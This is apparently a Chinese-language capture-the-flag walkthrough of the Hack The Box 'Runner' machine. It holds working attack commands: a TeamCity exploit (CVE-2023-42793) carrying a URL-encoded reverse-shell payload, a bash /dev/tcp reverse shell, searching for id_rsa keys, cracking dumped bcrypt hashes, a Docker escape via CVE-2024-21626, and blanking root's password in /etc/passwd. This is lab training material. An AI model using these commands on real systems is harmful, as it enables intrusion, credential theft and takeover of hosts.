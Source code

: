 把 Token 存到文件 `token`，然后执行这个 [PoC](https://github.com/Zyad-Elsayed/CVE-2023-42793/blob/main/rce.py)

```bash
python rce.py -u http://teamcity.runner.htb -t token -c '"/bin/bash"&params="-c"&params="sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.18%2F55555%200%3E%261"'
```

然后就拿到 shell 了，得到第一个 flag。注意这里是 docker 的 shell，执行 `python3 -c 'import pty; pty.spawn("/bin/bash")'` 换个 shell（不知道和直接 `bash` 有啥区别），传 `linpeas.sh` 执行没找到啥，但是能搜到一个 `id_rsa`。

```bash
find / -name id_rsa 2> /dev/null
```

这里 `2> /dev/null` 是把 stderr 重定向到 `/dev/null`，不然会有很多权限不足的提示。
在网站中的 User 里有个 john，然后就可以用这个 `id_rsa` 登录 john 了。

```bash
chmod 600 id_rsa
ssh john@runner.htb -i id_rsa
```

一开始报 `Load key "id_rsa": error in libcrypto`，原来是末尾少打一个换行。
再传 `linpeas.sh` 扫一轮，发现 `/etc/hosts` 里还有个域名叫 `portainer-administration.runner.htb`，加到本机里，然后访问，发现是个 Portainer，查漏洞，没有。

之前的网站是有个备份的，下载下来能找到 `users`，内容如下：

```csv
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1717486715003, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, city_adminopx8, $2a$07$K1PwHspWALRGHbsy0XaPOe7cIK2IVF5hkq8DS/t0L6ulKDCNoACY2, , angry-admin@funnybunny.org, 1717487324779, BCRYPT
```

用 john 把 matthew 的密码爆出来，为 `piper123`，注意 john 会把结果存在 `~/.john/john.pot` 里，再跑的话要 `john --show hash.txt` 才能显示。

用这个去登录 Portainer，然后用 CVE-2024-21626 打 docker 逃逸，启动一个 container，把 working dir 挂到 `/proc/self/fd/8`，网页 shell 不好使，用 bash 弹个 shell 回来：

```bash
bash -i >& /dev/tcp/10.10.16.18/55555 0>&1
```

然后 `cat ../../../root/root.txt` 就拿到第二个 flag 了。
无聊的时候想用 john 爆 `/etc/shadow` 里 root 的密码，发现还得加 `--format=crypt`。

### 后继小研究

发现 docker 里面没有 nano 也没有 vim，但是有 sed，执行如下命令：

```bash
sed -i 's/root:x:/root::/' ../../../etc/passwd
```

然后就可以 `su root` 了，执行 `crontab -e`，发现有个定时任务。
